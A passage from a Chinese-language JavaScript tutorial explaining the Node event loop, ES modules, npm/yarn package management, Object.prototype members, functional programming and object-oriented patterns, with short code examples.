  console.log('promise then')
})

console.log('main script end')

// 执行结果：main script start → main script end → promise then → setTimeout
```

> 提示
>
> 这就是 19.12.2 那条提示的完整版：「`then` / `catch` 里的回调属于微任务，会比 `setTimeout` 这类宏任务更早执行」。第 12 章那个从任务队列里不断取任务执行的过程，取的其实就是**宏任务**。

#### 19.13.3 Node 的事件循环

* 浏览器中的 `EventLoop` 是根据 HTML5 定义的规范来实现的，不同的浏览器可能会有不同的实现
* 而 Node 中的事件循环是由 **libuv** 实现的

libuv 中主要维护了一个 `EventLoop` 和 `worker threads`（线程池）：

* `EventLoop` 负责调用系统的一些其他操作：文件的 IO、Network、child-processes（子进程）等
* libuv 是一个多平台、专注于异步 IO 的库，它最初就是为 Node 开发的，但是现在也被使用到 Luvit、Julia、pyuv 等其他地方

Node 的整体结构可以这样拆开看：

* 最上层是**应用程序**（`express`、`koa` 这类服务器，以及我们写的 JS 代码）
* 它向下通过 **Node.js Bindings（Node API）** 与 `V8`（JavaScript 引擎）交互 —— JS 代码由 V8 负责执行
* 需要等待的部分交给 **libuv（asynchronous I/O）**：待处理的操作被放进 `EVENT QUEUE`，由 `EVENT LOOP` 取出来，交给 `WORKER THREADS`（文件系统、网络、进程）或操作系统去执行，执行完的结果与回调再交回 `EVENT LOOP`



#### 19.13.4 一次 Tick 分为哪些阶段

前面强调过，事件循环像是一座桥梁，是连接应用程序的 JavaScript 和系统调用之间的通道：

* 无论是文件 IO、数据库、网络 IO、定时器、子进程，在完成对应的操作后，都会将**对应的结果和回调函数**放到事件循环（任务队列）中
* 事件循环会不断地从**任务队列**中取出对应的事件（回调函数）来执行

但是一次完整的事件循环 Tick 分成很多个阶段：

* **定时器（Timers）**：本阶段执行已经被 `setTimeout()` 和 `setInterval()` 调度的回调函数
* **待定回调（Pending Callback）**：对某些系统操作（如 TCP 错误类型）执行回调，比如 TCP 连接时接收到 `ECONNREFUSED`
* **idle, prepare**：仅系统内部使用
* **轮询（Poll）**：检索新的 I/O 事件；执行与 I/O 相关的回调
* **检测（check）**：`setImmediate()` 的回调函数在这里执行
* **关闭的回调函数**：一些关闭的回调函数，如 `socket.on('close', ...)`

#### 19.13.5 Node 的宏任务与微任务

从一次事件循环的 Tick 来说，Node 的事件循环更复杂，它也分为微任务和宏任务：

* 宏任务（macrotask）：`setTimeout`、`setInterval`、IO 事件、`setImmediate`、close 事件
* 微任务（microtask）：`Promise` 的 `then` 回调、`process.nextTick`、`queueMicrotask`

但是，Node 中的事件循环不只是「微任务队列」和「宏任务队列」两个：

* 微任务队列
  * next tick queue：`process.nextTick`
  * other queue：`Promise` 的 `then` 回调、`queueMicrotask`
* 宏任务队列
  * timer queue：`setTimeout`、`setInterval`
  * poll queue：IO 事件
  * check queue：`setImmediate`
  * close queue：close 事件

> 注意
>
> `process.nextTick` 是 Node 独有的（浏览器里没有 `process` 这个全局对象，浏览器只能用 `queueMicrotask`），并且 next tick queue 的优先级高于 other queue —— 所以在 Node 里 `process.nextTick` 的回调比 `Promise.then` 还要先执行。这些是后端/构建工具里才会遇到的内容，了解即可。

### 19.14 模块化 `import` / `export`

#### 19.14.1 导出

一个 `.js` 文件就是一个模块，想让别的文件用到的内容要导出：

```javascript
// a.js
// 具名导出：可以导出多个，导入时名字要对得上
export const name = '小明'
export const age = 18

export function sayHi() {
  console.log('hi')
}

// 默认导出：一个文件只能有一个，导入时名字可以自己起
export default function () {
  console.log('这是默认导出的内容')
}
```

* 导出的是**值本身**，`export const name = '小明'` 导出的就是那个字符串，`export default` 后面写什么就导出什么，**不一定是对象**
* `export default 5` 导出的是数字，`export default { a: 1 }` 导出的是对象，上面例子里的默认导出是一个**函数**
* 默认导出和具名导出可以在同一个文件里同时使用；一个模块最多只能有一个 `export default`

#### 19.14.2 导入

```javascript
// b.js
// 1. 具名导入：大括号里的名字要和导出的一致
import { name, age } from './a.js'

// 2. 起别名
import { name as userName } from './a.js'

// 3. 整体导入：拿到一个对象，所有具名导出都挂在这个对象的属性上
import * as utils from './a.js'
console.log(utils.name) // 小明

// 4. 默认导入（名字随便起）+ 具名导入
import sayHello, { name, age } from './a.js'
```

三种导入拿到的到底是什么，别混：

| 导入写法 | 拿到的东西 |
| --- | --- |
| 具名导入 `import { name }` | 那个导出值**本身**（字符串、数字、函数、对象都可能） |
| 默认导入 `import sayHello` | `export default` 后面的那个值**本身**（也是一样，什么类型都可能） |
| 整体导入 `import * as utils` | **一个对象**（模块命名空间对象），具名导出是它的属性，默认导出放在 `utils.default` 上 |

```javascript
import * as utils from './a.js'

console.log(typeof utils) // 'object'  ← 只有整体导入才会额外拿到一个对象
console.log(utils.name) // 小明
console.log(utils.default) // [Function]  ← 默认导出也在里面，属性名叫 default
```

> 注意
>
> 整体导入得到的这个对象是**只读**的，不能给它加属性，模块内部也是严格模式，`utils.size = 10` 会直接报错。

* 路径要写清楚，一般带上扩展名：`'./a.js'`、`'../utils/format.js'`
* `import` 必须写在模块最上面

#### 19.14.3 统一导出与仅导入

**统一导出**：大型项目通常有一个入口文件（如 `index.js`），把分散在各个文件里的导出集中起来，外部只认这个入口：

```javascript
// components/index.js
export { Button } from './Button.js'
export { Input } from './Input.js'
export { Card } from './Card.js'
```

```javascript
// 外部使用时只写一个路径
import { Button, Input, Card } from './components/index.js'
```

这种“导出别的模块的内容”的写法也叫**重新导出**，好处是模块的目录结构可以随便调整，只要入口文件不变，外部代码就不用改。

**仅导入模块**：只想执行某个模块的代码（比如它自己会往页面里挂东西、注册全局配置），但不需要它的任何导出：

```javascript
import './init.js'
```

**关键点总结**：

1. `export`：声明哪些内容可以被其他文件使用
2. `import`：从其他模块引入需要的功能
3. `type="module"`：告诉浏览器这是模块脚本，支持 `import` / `export`

#### 19.14.4 使用注意

引入模块的 `<script>` 标签必须加 `type="module"`：

```html
<script type="module" src="./b.js"></script>
```

* 加 `type="module"` 的脚本默认就是**严格模式**，而且是**延迟执行**（等 HTML 解析完再执行，和 `defer` 效果类似）
* 模块内部的变量不会挂到 `window` 上，不会互相污染，比多个普通 `<script>` 标签共享变量安全
* 用 `file://` 双击打开 HTML 时，浏览器会因同源策略拒绝加载模块（报错里能看到 `CORS` 字样），要用 Live Server 这类本地服务器打开

> 提示
>
> 还有一种**动态导入** `import('./a.js')`，它返回的是 Promise，可以用在「需要时再加载」的场景，Vue 的路由懒加载就是这么写的。

### 19.15 npm 与 yarn：包管理工具

前端项目依赖大量第三方包，装包这件事由**包管理工具**完成，JavaScript 生态里最主流的是 `npm` 和 `yarn`。

#### 19.15.1 npm install 做了什么

很多人都会写 `npm install <package>`，但它背后完成了哪些操作、`package-lock.json` 是干什么用的，值得理一遍。

**没有 lock 文件时**：

* ① 分析依赖关系 —— 因为我们装的包可能依赖其他的包，并且多个包之间会产生相同依赖的情况
* ② 从 registry 仓库中下载压缩包（如果我们设置了镜像，那么会从镜像服务器下载压缩包）
* ③ 获取到压缩包后会对压缩包进行**缓存**（从 npm5 开始有的）
* ④ 将压缩包解压到项目的 `node_modules` 文件夹中
* ⑤ 生成 `package-lock.json`

**有 lock 文件时**：

* ① 检测 lock 中包的版本是否和 `package.json` 中一致（会按照 semver 版本规范检测）
  * 不一致 → 会重新构建依赖关系，直接走上面的流程
* ② 一致的情况下，会去**优先查找缓存**
  * 没有找到 → 会从 registry 仓库下载，直接走上面的流程
  * 查找到 → 会获取缓存中的压缩文件，并且将压缩文件解压到 `node_modules` 文件夹中



#### 19.15.2 package-lock.json 的作用

* 记录每个包**实际安装的版本**和完整性校验值，保证团队里每个人、以及 CI 上装出来的是同一套依赖
* 用来和 `package.json` 做**一致性检测**（按 semver 版本规范）：不一致就重新构建依赖关系
* 有了它，安装时会优先查缓存，装得更快

`package.json` 里写的是**版本范围**，`package-lock.json` 里锁的是**具体版本**：

* `^1.2.3`：主版本号不变，允许升到最新的 `1.x.x`
* `~1.2.3`：主次版本号都不变，允许升到最新的 `1.2.x`
* `1.2.3`：写死这个版本

> 提示
>
> `package-lock.json` 和 `node_modules` 的取舍是反的：`node_modules` 体积大且可以随时重装，**不要提交到 Git**；`package-lock.json` 必须提交，否则别人装出来的版本可能和你不一样。

#### 19.15.3 npm 的缓存

* 从 npm5 开始，npm 支持缓存策略（来自 yarn 的压力）
* 缓存的作用：同一个包第二次安装时不必重新下载，直接从缓存解压即可；甚至可以离线安装
* 缓存目录在用户目录下（`~/.npm/_cacache`），清缓存用 `npm cache clean`，有些清理操作还需要加 `--force`

#### 19.15.4 yarn

yarn 是另一个 Node 包管理工具：

* 由 Facebook、Google、Exponent 和 Tilde 联合推出的一个新的 JS 包管理工具
* yarn 是为了弥补 npm 的一些缺陷而出现的
* 早期的 npm 存在很多缺陷，比如安装依赖速度很慢、版本依赖混乱等一系列的问题
* 虽然从 npm5 版本开始做了很多升级和改进，但是依然有很多人喜欢使用 yarn

常用的命令对照：

| 作用 | npm | yarn |
| --- | --- | --- |
| 安装全部依赖 | `npm install` | `yarn install` |
| 添加依赖 | `npm install [package]` | `yarn add [package]` |
| 添加依赖并写入 dependencies | `npm install --save [package]` | `yarn add [package]` |
| 添加开发依赖 | `npm install --save-dev [package]` | `yarn add [package] [--dev/-D]` |
| 重新构建 | `npm rebuild` | `yarn install --force` |
| 移除依赖 | `npm uninstall [package]` | `yarn remove [package]` |
| 移除依赖并写入 dependencies | `npm uninstall --save [package]` | `yarn remove [package]` |
| 移除开发依赖 | `npm uninstall --save-dev [package]` | `yarn remove [package]` |
| 清缓存 | `npm cache clean` | `yarn cache clean` |
| 彻底重装 | `rm -rf node_modules && npm install` | `yarn upgrade` |

> 经验
>
> 现在新项目更常见的选择是 `pnpm`（省磁盘、装得快），但 `npm` / `yarn` 的命令是绕不开的基础。**同一个项目里不要混用**包管理工具，混用会生成两套锁文件、`node_modules` 结构也对不上。

#### 19.15.5 npm 常用命令速查

| 场景 | 命令 | 说明 |
| --- | --- | --- |
| 初始化项目 | `npm init -y` | 快速生成默认的 `package.json` |
| 安装全部依赖 | `npm install`（`npm i`） | 根据 `package.json` 安装所有依赖 |
| 安装指定包 | `npm i <包名>` | 写入 `dependencies`（生产依赖） |
| 安装开发工具 | `npm i <包名> -D` | 写入 `devDependencies`（开发依赖），如 ESLint、Vite |
| 全局安装 | `npm i <包名> -g` | 装到系统全局，通常用于命令行工具，如 `nodemon` |
| 运行脚本 | `npm run <脚本名>` | 运行 `package.json` 中 `scripts` 定义的命令 |
| 卸载 | `npm uninstall <包名>` | 移除包并更新配置文件 |
| 更新 | `npm update` | 更新到符合版本规则的最新版本 |
| 检查过时 | `npm outdated` | 列出有新版本的依赖 |
| 安全审计 | `npm audit` / `npm audit fix` | 检查并修复已安装包的安全漏洞 |
| 查看镜像源 | `npm config get registry` | 查看当前使用的 registry |

#### 19.15.6 依赖类型与 scripts

`package.json` 中会看到两类依赖，区分它们很重要：

| 类型 | 字段 | 说明 | 举例 |
| --- | --- | --- | --- |
| 生产依赖 | `dependencies` | 项目**运行时**必须用到的包，缺失会直接报错 | React、Vue、Lodash、Axios |
| 开发依赖 | `devDependencies` | **只在开发阶段**用到的工具，打包上线后不再需要 | TypeScript、Webpack / Vite、ESLint |

版本号的语义化规则（SemVer）是 `主版本号.次版本号.修订号`：

* **主版本号（Major）**：做了不兼容的修改（破坏性更新）
* **次版本号（Minor）**：向下兼容的功能性新增
* **修订号（Patch）**：向下兼容的问题修正

`package.json` 的 `scripts` 字段可以定义快捷命令，这是 npm 最实用的功能之一：

```json
{
  "scripts": {
    "start": "node app.js",
    "dev": "vite",
    "build": "vite build",
    "test": "jest"
  }
}
```

定义后，在终端执行 `npm run dev` 即可启动开发服务器；`npm start`、`npm test` 是内置的简写，可以省略 `run`。

#### 19.15.7 npx、npm exec 与 npm create

这三个命令都和“执行包里的命令”有关，容易混淆：

| 命令 | 主要用途 | 关系与说明 |
| --- | --- | --- |
| `npm create <模板>` | 创建项目 | `npm init` 的别名，内部会调用 `npx` 并给包名加上 `create-` 前缀 |
| `npx <命令>` | 执行包中的可执行文件 | 历史悠久、社区最常用；npm 7+ 中是 `npm exec` 的别名 |
| `npm exec <命令>` | 执行包中的可执行文件 | npm 7 引入的官方标准命令 |

`npm create` 的例子：

```bash
# 实际等价于 npx create-vite@latest my-app
npm create vite@latest my-app
```

`npx <命令>` 的执行流程：

1. 先在当前项目的 `node_modules/.bin` 目录下查找该命令
2. 本地没有，就自动从 npm 仓库临时下载这个包
3. 执行包中的可执行文件
4. 执行完，临时下载的包通常会被清理掉，不会污染环境

常见场景：

```bash
npx create-react-app my-app   # 一次性使用脚手架，不必全局安装
npx eslint .                  # 直接运行项目里已安装的命令行工具
npx create-vite@4.0.0         # 指定版本运行
```

> 提示
>
> 日常用 `npx` 就行，它在所有 npm 版本中都可用；需要工作空间（Workspaces）等高级功能时再用 `npm exec`。

#### 19.15.8 npm ci 与镜像源

**`npm ci`** 专为持续集成（CI）和自动化构建设计：

* 严格按照 `package-lock.json` 锁定版本安装，**不会修改锁文件**
* 安装前会先清空 `node_modules`，保证构建环境绝对干净
* 比 `npm install` 更快，`package.json` 和 lock 文件不一致时会直接报错

**配置镜像源**：官方源在国外，国内下载可能较慢，可以换成镜像（如淘宝源）：

```bash
# 永久修改
npm config set registry https://registry.npmmirror.com

# 只在本次安装时临时使用
npm i <包名> --registry=https://registry.npmmirror.com
```

> 总结
>
> * 日常开发：用 `npm i -D` 装工具，用 `npm run` 执行任务
> * 发布项目：确认 `package.json` 里的版本号正确，再 `npm publish`
> * 维护项目：定期 `npm audit` 修漏洞、`npm outdated` 看过时依赖

### 19.16 `Object.prototype` 上有哪些成员

第 17 章讲过：原型链的顶端是 `Object.prototype`，普通对象都能顺着原型链用到它身上的方法。它上面的成员一共就这么几个，用 `Object.getOwnPropertyNames(Object.prototype)` 可以完整列出来：

```javascript
console.log(Object.getOwnPropertyNames(Object.prototype))
// ['constructor', '__defineGetter__', '__defineSetter__', 'hasOwnProperty',
//  '__lookupGetter__', '__lookupSetter__', 'isPrototypeOf', 'propertyIsEnumerable',
//  'toString', 'valueOf', '__proto__', 'toLocaleString']
```

| 成员 | 类型 | 作用 |
| --- | --- | --- |
| `constructor` | 属性 | 指向 `Object` 构造函数 |
| `hasOwnProperty(键)` | 方法 | 判断属性是不是对象**自己**的 |
| `isPrototypeOf(对象)` | 方法 | 判断自己是不是参数原型链上的一环 |
| `propertyIsEnumerable(键)` | 方法 | 判断自有属性是否可枚举（能不能被 `for...in` 遍历到） |
| `toString()` | 方法 | 默认返回 `'[object 类型]'` |
| `toLocaleString()` | 方法 | 默认直接调用 `toString()` |
| `valueOf()` | 方法 | 默认返回对象**自身** |
| `__proto__` | **访问器属性** | 读写原型（有 getter / setter，不是普通属性，所以「读出来是原型、写进去能改原型」） |
| `__defineGetter__` / `__defineSetter__` / `__lookupGetter__` / `__lookupSetter__` | 方法 | 早期的访问器写法，已被 `Object.defineProperty` 取代，不要再用 |

其中 `toString`、`valueOf`、`toLocaleString` 这三个，很多内置对象都**在自己的原型上重写了一份**。

#### 19.16.1 `toString`：被重写得最多的一个

`Object.prototype.toString` 的默认结果是 `'[object 类型]'`，但数组、函数、日期这些对象觉得这个结果不好用，就在各自的原型上重写了：

```javascript
console.log(({}).toString()) // [object Object]  默认版本
console.log([1, 2, 3].toString()) // 1,2,3  数组重写过：把单元值拼起来
console.log(new Error('出错了').toString()) // Error: 出错了  错误对象重写过
console.log(/a/gi.toString()) // /a/gi  正则重写过：还原成字面量
console.log((255).toString(16)) // ff  数字重写过，还多支持一个「进制」参数
console.log((function f(a) { return a + 1 }).toString()) // 函数重写过，返回的是源码文本
```

* 重写了 `toString` 的：`Array`、`Function`、`Date`、`RegExp`、`Error`、`Number`、`Boolean`、`String`、`Symbol`（各自的原型上都有一份）
* `Map` / `Set` **没有**重写 `toString`，它们是靠内置的 `Symbol.toStringTag`，让默认版本也能输出对的内容：
  ```javascript
  console.log(new Map().toString()) // [object Map]
  console.log(Object.prototype.toString.call(new Map())) // [object Map]
  console.log(Object.prototype.toString.call(null)) // [object Null]
  ```
* 这个「借默认 `toString` 判断类型」的写法很常用，因为 `typeof` 对 `null`（得到 `'object'`）和数组（也只得到 `'object'`）都不准

#### 19.16.2 `valueOf`：做运算时会被自动调用

`valueOf` 默认返回对象自身，参与**算术运算**时会自动调用它，这就是包装类型「拆箱」的原理：

```javascript
const arr = [1, 2]
console.log(arr.valueOf() === arr) // true  数组没重写，返回自身

console.log(new Number(5).valueOf()) // 5  数字包装类型重写过
console.log(new Number(5) + 1) // 6  运算时自动调用 valueOf 取出 5
console.log(new Date(0).valueOf()) // 0  日期重写过，返回时间戳
```

* 重写了 `valueOf` 的：`Date`（时间戳）、`Number`、`Boolean`、`String`、`Symbol`（各自的原始值）
* **没有**重写的：`Array`、`Object`、`Function`、`Map`、`Set` 等，调用后返回对象自身

#### 19.16.3 `toLocaleString`：按本地习惯输出

```javascript
console.log((1234567.891).toLocaleString()) // 1,234,567.891  数字：带千分位
console.log([1, 2, 3].toLocaleString()) // 1,2,3  数组：每个单元值各自 toLocaleString 后再拼
console.log(new Date(0).toLocaleString()) // 1970/1/1 08:00:00  日期：本地时间
```

* 重写了 `toLocaleString` 的：`Array`、`Number`、`Date`
* 第 11 章日期对象里用的那个 `toLocaleString`，就是 `Date.prototype` 上重写过的版本；没重写的对象（比如普通对象）调用它，等价于调用 `toString`

#### 19.16.4 `hasOwnProperty` 不会被重写，但会被「遮蔽」

`hasOwnProperty`、`isPrototypeOf`、`propertyIsEnumerable` 这几个，内置对象基本都没有重写，但有两种情况会拿不到：

```javascript
// 1. Object.create(null) 造出来的对象没有原型，这些方法全都没有
const bare = Object.create(null)
console.log(typeof bare.hasOwnProperty) // undefined

// 2. 对象自己的同名属性把方法盖住了（接口返回的数据里刚好有同名键）
const data = { hasOwnProperty: 1 }
console.log(typeof data.hasOwnProperty) // number
console.log(data.hasOwnProperty('x')) // 报错：hasOwnProperty is not a function
```

所以判断自有属性推荐用 19.3.3 讲的 `Object.hasOwn(对象, 键)`，它不怕被同名属性覆盖。

```javascript
console.log(Object.prototype.isPrototypeOf([])) // true  数组的原型链上有 Object.prototype
console.log(Array.prototype.isPrototypeOf([])) // true  自己的原型链上也有 Array.prototype
console.log([1, 2].propertyIsEnumerable(0)) // true  下标 0 是自有且可枚举
console.log([1, 2].propertyIsEnumerable('length')) // false  length 不可枚举
```

#### 19.16.5 `constructor` 和 `__proto__`

* `constructor`：每个内置的原型上都有一份自己的 `constructor`，指回对应的构造函数。第 17 章强调过，**手动替换原型对象时要记得补回来**（`Person.prototype.constructor = Person`），否则原型链上的构造函数就指错了
* `__proto__`：整条链上只有 `Object.prototype` 这一个访问器。写对象字面量时它能改原型，但 `JSON.parse` 出来的同名键只是**普通属性**，容易踩坑：

```javascript
const lit = { __proto__: { a: 1 } }
console.log(lit.a) // 1  ← 原型被设置了，属性是从原型上找到的

const parsed = JSON.parse('{"__proto__": {"a": 1}}')
console.log(parsed.a) // undefined  ← JSON.parse 只是加了个同名自有属性，没动原型
console.log(Object.hasOwn(parsed, '__proto__')) // true
```

> 提示
>
> 看原型用 `Object.getPrototypeOf(对象)`，改原型用 `Object.setPrototypeOf(对象, 新原型)` 或创建时用 `Object.create(新原型)`，比直接写 `__proto__` 规范。

> 注意
>
> 不是所有对象都在这条链上：`Object.create(null)` 造的对象没有原型，`Object.prototype` 自己的原型是 `null`（链到头了）；而 `Map`、`Set` 的实例**在**链上（`Map.prototype` 的原型就是 `Object.prototype`），所以它们照样能用 `hasOwnProperty` 这些方法。

### 19.17 现代写法小结

把散落在各处的习惯集中记一下，写代码时照着用，代码会更短、更不容易出错：

* 声明变量优先 `const`，确定要改再用 `let`，新代码不要用 `var`
* 判断相等一律用 `===`，不用 `==`，避免隐式转换带来的意外
* 拼接字符串优先用模板字符串 `` `${}` ``
* 取对象的多个属性用解构赋值：`const { name, age } = user`
* 合并数组或对象用展开运算符 `...`
* 不确定某一层数据存不存在时用 `?.`，取默认值时用 `??`
* 遍历对象用 `Object.entries`，遍历数组用 `forEach` / `map` / `filter`
* 「有没有符合条件的」用 `some`，「是不是全都符合」用 `every`，「查具体哪一个」用 `find`
* 用数组方法时记得区分**会改原数组**的（`push`、`pop`、`splice`、`sort`、`reverse`）和**返回新数组**的（`map`、`filter`、`slice`、`concat`、`toSorted`）
* 一个函数只做一件事，函数名写清楚它做什么

### 19.18 函数式编程

**函数式编程（Functional Programming，FP）**是一种以函数为核心的编程范式：函数可以像普通值一样被传递、返回和赋值。JavaScript 天生支持这种写法，因为它的函数是“一等公民”。

#### 19.18.1 函数是一等公民

* 函数可以嵌套定义
* 函数可以作为参数传给另一个函数
* 函数可以作为返回值

```javascript
// 函数作为返回值
function outer() {
  function inner(username) {
    console.log(`Hello ${username}`)
  }
  return inner
}

const innerFun = outer() // 拿到内部函数
innerFun('Tom') // Hello Tom

// 函数作为参数
function fun(funParam) {
  funParam('Tom')
}

fun(function sayHello(username) {
  console.log(`hello ${username}`)
})

fun((username) => {
  console.log(`Hi, ${username}`)
})
```

> 提示
>
> 作用域链规则：内层函数可以访问外层函数的变量，外层函数不能访问内层函数的变量（见 14.4）。函数能“带着”外层变量到处跑，正是闭包和函数式编程的基础。

#### 19.18.2 纯函数与非纯函数

**纯函数**满足三条：

1. 相同的输入一定得到相同的输出，值稳定
2. 只依赖输入参数，不依赖外部变量（全局变量、外层作用域变量等）
3. 不修改外部状态（不改全局变量、不修改参数、不做 I/O）

```javascript
// 纯函数
function square(x) {
  return x * x
}

// 非纯函数：依赖外部变量 taxRate
let taxRate = 0.1
function calculateTax(amount) {
  return amount * taxRate
}

// 非纯函数：修改了外部状态
let count = 0
function increment() {
  count++
  return count
}
```

纯函数好测试、好复用、结果可预测；非纯函数（有副作用）在操作 DOM、发请求、读写存储时不可避免，关键是把副作用集中到少数地方。

#### 19.18.3 高阶函数

**如果一个函数的参数是函数，或者返回值是函数，它就是高阶函数。**

```javascript
// 参数是函数：doTwice 是高阶函数
function doTwice(func, value) {
  return func(func(value))
}

function add5(x) {
  return x + 5
}

console.log(doTwice(add5, 10)) // 20（10 + 5 + 5）

// 返回值是函数：createMultiplier 也是高阶函数
function createMultiplier(factor) {
  return function (number) {
    return number * factor
  }
}

const double = createMultiplier(2)
const triple = createMultiplier(3)
console.log(double(5)) // 10
console.log(triple(5)) // 15
```

平时用的 `map`、`filter`、`reduce`、`forEach`、`sort`、`setTimeout` 都是高阶函数，因为它们都接收函数作为参数。

#### 19.18.4 函数组合

**函数组合**就是把多个函数合并成一个新函数，按顺序依次执行。下面实现一个从右到左执行的 `compose`：

```javascript
function compose(...fns) {
  function compute(x) {
    // reduceRight 从数组右侧开始取函数
    return fns.reduceRight((value, fn) => fn(value), x)
  }
  return compute
}

const add1 = (x) => x + 1
const double = (x) => x * 2
const square = (x) => x * x

// 先加 1，再乘 2，最后平方
const transform = compose(square, double, add1)
console.log(transform(2)) // ((2 + 1) * 2)² = 36
```

* `compose(square, double, add1)` 的执行顺序是 `add1 → double → square`，与书写顺序相反
* 想把执行顺序改成从左到右，把 `reduceRight` 换成 `reduce` 即可，这种写法常叫 `pipe`

#### 19.18.5 柯里化

**柯里化（Currying）**把多参数函数转换成一系列单参数函数：

```javascript
// 普通函数
function add(a, b, c) {
  return a + b + c
}

// 柯里化版本
function curryAdd(a) {
  return function (b) {
    return function (c) {
      return a + b + c
    }
  }
}

// 箭头函数简写
const curryAdd2 = (a) => (b) => (c) => a + b + c

console.log(curryAdd(1)(2)(3)) // 6

// 最大作用：固定部分参数，得到新函数
const add5 = curryAdd(2)(3)
console.log(add5(10)) // 15
```

#### 19.18.6 闭包的两个经典应用

**数据私有化（模块模式）**：

```javascript
function createPerson() {
  let username = 'jack' // 外部无法直接访问
  return {
    getUsername() {
      return username
    },
    setUsername(newName) {
      username = newName
    }
  }
}

const p = createPerson()
console.log(p.getUsername()) // jack
p.setUsername('lucy')
console.log(p.getUsername()) // lucy
console.log(p.username) // undefined，外部拿不到
```

**函数工厂**：创建一系列功能相似、配置不同的函数：

```javascript
function createMultiplier(factor) {
  return function (number) {
    return number * factor
  }
}

const double2 = createMultiplier(2)
const triple2 = createMultiplier(3)
console.log(double2(5)) // 10
console.log(triple2(5)) // 15
```

> 提示
>
> 闭包的原理、内存影响和更多例子见 14.6；这里关注的是它作为函数式编程工具的两类用法。

#### 19.18.7 小练习

**练习 1：计数器工厂**，每次调用返回递增的数字，不同的计数器互不影响：

```javascript
function createCounter() {
  let count = 0
  return function () {
    count++
    return count
  }
}

const counter1 = createCounter()
console.log(counter1()) // 1
console.log(counter1()) // 2

const counter2 = createCounter()
console.log(counter2()) // 1，和 counter1 互不影响
```

**练习 2：用函数式方法处理数据**：

```javascript
const users = [
  { name: 'Alice', age: 25 },
  { name: 'Bob', age: 30 },
  { name: 'Charlie', age: 20 }
]

// 1. 所有用户的名字
console.log(users.map((user) => user.name)) // ['Alice', 'Bob', 'Charlie']

// 2. 年龄大于 25 的用户
console.log(users.filter((user) => user.age > 25)) // [{ name: 'Bob', age: 30 }]

// 3. 平均年龄
const total = users.reduce((sum, user) => sum + user.age, 0)
console.log(total / users.length) // 25
```

### 19.19 面向对象补充：工厂、封装、多态与组合

第 16、17 章已经讲过构造函数、原型和 `class`，这里从“设计模式”的角度把对象的创建与组织方式串一遍。

#### 19.19.1 对象的四种创建方式

| 方式 | 写法要点 | 特点 |
| --- | --- | --- |
| 工厂模式 | 普通函数返回一个对象字面量 | 简单灵活，不需要 `new`；但无法用 `instanceof` 判断类型 |
| 构造函数模式 | `new Person()`，方法写在构造函数里 | 能用 `instanceof`；但每个实例都复制一份方法，浪费内存 |
| 原型模式 | 属性写在构造函数里，方法挂在 `Person.prototype` 上 | 方法共享，节省内存，ES5 时代最常用 |
| `class` 语法 | `class Person { constructor() {} greet() {} }` | 现代开发首选，写法清晰；底层仍然是原型 |

```javascript
// 工厂模式
function createPerson(name, age) {
  return {
    name,
    age,
    greet() {
      console.log(`你好，我是${this.name}`)
    }
  }
}

// 原型模式
function Person(name, age) {
  this.name = name
  this.age = age
}
Person.prototype.greet = function () {
  console.log(`你好，我是${this.name}`)
}

// class 语法
class Person2 {
  constructor(name, age) {
    this.name = name
    this.age = age
  }

  greet() {
    console.log(`你好，我是${this.name}`)
  }

  static createAnonymous() {
    return new Person2('匿名', 0)
  }
}

const person = new Person2('钱七', 35)
person.greet()
Person2.createAnonymous().greet() // 你好，我是匿名
```

> 提示
>
> JS 的面向对象是**基于原型**（prototype-based）的，不是基于类的；`class` 只是语法糖，底层仍然是原型（见 17.6）。ES6 之后的对象字面量还支持简写：属性名和变量名相同时写 `name` 即可，方法可以写成 `greet() {}`。

#### 19.19.2 封装

封装是把内部状态藏起来，只通过方法暴露受控的访问。JavaScript 有三种常见做法：

**（1）命名约定**：属性名前加下划线 `_`，表示“私有，请不要直接访问”，但**实际上仍是公开的**：

```javascript
class User {
  constructor(name, age) {
    this.name = name
    this._age = age // 约定为私有
  }

  getAge() {
    return this._age
  }

  setAge(newAge) {
    if (newAge > 0) {
      this._age = newAge
    }
  }
}

const user = new User('Alice', 30)
console.log(user._age) // 30，仍然能访问，只是约定不要这么做
```

**（2）闭包**：创建真正的私有变量，外部只能通过暴露的方法操作，但写法相对繁琐：

```javascript
function createPerson() {
  let username = 'jack'
  return {
    getUsername() {
      return username
    },
    setUsername(newName) {
      username = newName
    }
  }
}
```

**（3）`#` 私有字段（ES2019+）**：语言层面真正的私有，类外部访问会直接报语法错误：

```javascript
class User2 {
  #age // 真正的私有字段

  constructor(name, age) {
    this.name = name
    this.#age = age
  }

  get age() {
    return this.#age
  }
}

const user2 = new User2('Charlie', 40)
console.log(user2.name) // Charlie
console.log(user2.age) // 40
// console.log(user2.#age) // SyntaxError
```

三种方式各有取舍：命名约定最简单但不强制；闭包最灵活但写法重；`#` 私有字段最标准，但需要较新的运行环境。另外也可以用 `get` / `set` 访问器在读写时做校验（见 19.10.3）。

#### 19.19.3 多态

**多态**的核心思想是：不同子类对父类的同一个方法提供不同的实现，调用时通过统一的接口处理，实际执行的是各自子类的方法。

```javascript
class Person {
  constructor(name) {
    this.name = name
  }

  speak() {}

  doSome() {
    console.log('do some')
  }
}

class EnglishPerson extends Person {
